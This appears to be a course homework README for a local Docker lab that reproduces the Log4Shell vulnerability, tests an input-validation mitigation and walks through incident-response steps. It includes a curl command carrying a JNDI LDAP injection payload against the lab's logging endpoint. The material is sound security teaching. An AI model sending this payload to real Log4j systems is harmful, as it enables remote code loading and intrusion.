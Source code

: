 # SEAS 8405 - Homework 9
## 1. Steps to reproduce Log4Shell zero-day vulnerability
1. Run docker compose up --build
2. Run python simple_ldap_server.py
3. Validate LDAP server by running: ldapsearch -x -H ldap://localhost:389 -b "dc=example,dc=org" "(cn=bob)"
4. Run curl -X POST -H 'Content-Type: text/plain' --data-raw '\${jndi:ldap://host.docker.internal:389/a}' http://localhost:8080/log
5. See JNDI call to LDAP server due to Log4Shell vulnerability.

## 2. Steps to attempt to reproduce after mitigation controls
1. Run docker compose up --build
2. Run python simple_ldap_server.py
3. Validate LDAP server by running: ldapsearch -x -H ldap://localhost:389 -b "dc=example,dc=org" "(cn=bob)"
4. Run curl -X POST -H 'Content-Type: text/plain' --data-raw '\${jndi:ldap://host.docker.internal:389/a}' http://localhost:8080/log
5. See "Invalid input detected!" message.
6. Run benign command: curl -X POST http://localhost:8080/log -d 'Hello, world!'
7. See Logged: Hello%2C+world%21=%

## 3. Simulating the incident response
1. Detect incident by checking the Docker logs for "${jndi:" request fragment. 
    - Execute "docker compose logs app"
2. Contain the incident by stoping the vulnerable container
    - Execute "docker compose down"
3. Eradicate: Confirm that no malicious processes are running.
    - Execute "docker ps -a"
4. Recover by deploying the patched application
    - Run "docker compose up --build"
5. Explanation:
    - Detect: Identified the attack via logs.
    - Contain: Isolated the system by stopping the container.
    - Eradicate: Ensured no residual threats.
    - Recover: Restored a secure version.
